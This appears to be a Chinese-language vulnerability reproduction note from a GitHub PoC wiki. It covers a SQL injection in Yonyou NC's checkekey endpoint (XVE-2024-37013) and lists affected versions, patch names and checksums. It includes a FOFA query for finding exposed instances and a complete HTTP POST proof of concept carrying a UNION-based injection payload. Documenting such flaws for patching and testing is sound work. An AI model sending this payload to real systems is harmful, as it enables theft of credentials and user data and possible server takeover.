

# 用友NC checkekey SQL 注入漏洞复现(XVE-2024-37013)

# 漏洞描述

用友NC中checkekey存在SQL注入漏洞，攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码,站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

# 影响版本

NC63、NC633、NC65

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="用友-UFIDA-NC"

POC/EXP：

POST /portal/pt/office/checkekey?pageId=login HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Connection: close

user=1' UNION ALL SELECT NULL,CHR(113)||CHR(113)||CHR(112)||CHR(122)||CHR(113)||CHR(80)||CHR(103)||CHR(106)||CHR(122)||CHR(81)||CHR(70)||CHR(74)||CHR(104)||CHR(106)||CHR(107)||CHR(100)||CHR(74)||CHR(105)||CHR(114)||CHR(88)||CHR(73)||CHR(112)||CHR(81)||CHR(101)||CHR(119)||CHR(116)||CHR(79)||CHR(71)||CHR(78)||CHR(115)||CHR(65)||CHR(111)||CHR(70)||CHR(103)||CHR(85)||CHR(71)||CHR(83)||CHR(101)||CHR(65)||CHR(71)||CHR(90)||CHR(114)||CHR(87)||CHR(78)||CHR(107)||CHR(113)||CHR(106)||CHR(98)||CHR(112)||CHR(113),NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM DUAL-- twnX&ekey=1

# 漏洞修复

打对应补丁，重启服务，各版本补丁获取方式如下：

NC63方案

补丁名称：patch_portal63_checkekey的sql注入安全漏洞

补丁编码：NCM_NC6.3_000_109902_20240927_GP_429685438

校验码：

706843a076cb25f11b2b5a0e3b202a682f243a6a2d2241e04d252afab4f53086

NC633方案

补丁名称：patch_portal633_checkekey的sql注入安全漏洞

补丁编码：NCM_NC6.33_000_109902_20240927_GP_429710563

校验码：

fad93fdb5538048d2479806f5d0138e42497fa1bc028337357c273d6117935a0

NC65方案

补丁名称：patch_portal65_checkekey的sql注入安全漏洞

补丁编码：NCM_NC6.5_000_109902_20240927_GP_429733520

校验码：

02c8b1afcda201392981f64be3de8f079e70d686353db789ec756a389c61866d

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
